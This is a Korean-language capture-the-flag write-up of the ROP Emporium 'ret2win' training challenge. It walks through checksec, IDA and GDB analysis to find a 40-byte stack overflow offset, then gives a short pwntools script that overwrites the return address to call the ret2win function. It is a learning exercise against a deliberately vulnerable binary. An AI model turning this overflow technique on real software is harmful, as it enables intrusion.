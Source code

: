 # ROP Emporium ret2win 문제 풀이

### checksec

![image](https://user-images.githubusercontent.com/59410565/119958818-5be03f80-bfde-11eb-8fb3-dd13f25ee197.png)

64bit 파일이고, Partial RELRO와 NX가 적용되어 있따. 따라서 ROP로 우회하여 공격할 수 있을 것 같다.



### IDA

> main() 함수

![image](https://user-images.githubusercontent.com/59410565/119959153-afeb2400-bfde-11eb-9c29-2137c5f484f0.png)

setvbuf() 함수가 존재한다. "ret2win by ROP Emporium", "x86_64"를 출력하고 pwnme()를 호출한다.

> pwnme() 함수

![image](https://user-images.githubusercontent.com/59410565/119959328-df9a2c00-bfde-11eb-8457-9448126ad8cb.png)

-> pwnme() 함수는 인자를 전달 받지 않는다....? 앞에 main에서는 왜 전달해 준 것일까...?

puts()에 작성되어 있는 문자들을 살펴본 결과 56bytes를 입력받는 것 같다. 이때 buf의 크기인 32bytes보다 더 많이 입력받기 때문에 overflow가 발생한다.

> ret2win() 함수

![image](https://user-images.githubusercontent.com/59410565/119959633-22f49a80-bfdf-11eb-8bbf-b891f36ebe0c.png)

main과 pwnme 어디에도 ret2win을 호출하는 것이 없다. 즉, 코드의 흐름을 변경하여 ret2win이 실행되도록 해야한다.



### GDB

![image](https://user-images.githubusercontent.com/59410565/120013916-5b669980-c01c-11eb-9e6d-ea6bd492eee1.png)

![image](https://user-images.githubusercontent.com/59410565/120013703-09be0f00-c01c-11eb-96fa-b77c4b2da79c.png)

**[Break Point]**

- pwnme+0 : pwnme() 함수 코드 첫 부분
- pwnme+92 : read() 함수 호출 전

![image](https://user-images.githubusercontent.com/59410565/120014123-a1236200-c01c-11eb-8dc7-b988888031e3.png)

![image](https://user-images.githubusercontent.com/59410565/120014415-fbbcbe00-c01c-11eb-8cce-0ddc6d140143.png)

40개 이상의 문자를 입력하면 RET이 변조된다.



## Exploit

```
payload = "A"*40 + ret2win 주소
```



### Exploit Code

```python
from pwn import *

#context.log_level = 'debug'
r = process('./ret2win')
e = ELF("./ret2win")

ret2win = e.symbols['ret2win']
print('ret2win : ' + str(hex(ret2win)))

payload = "A"*40
payload += p64(ret2win)

r.send(payload)
r.interactive()
```



### Result

![image](https://user-images.githubusercontent.com/59410565/120018197-c797cc00-c021-11eb-8455-ff0752bbc8b9.png)

flag를 얻을 수 있었다.

------


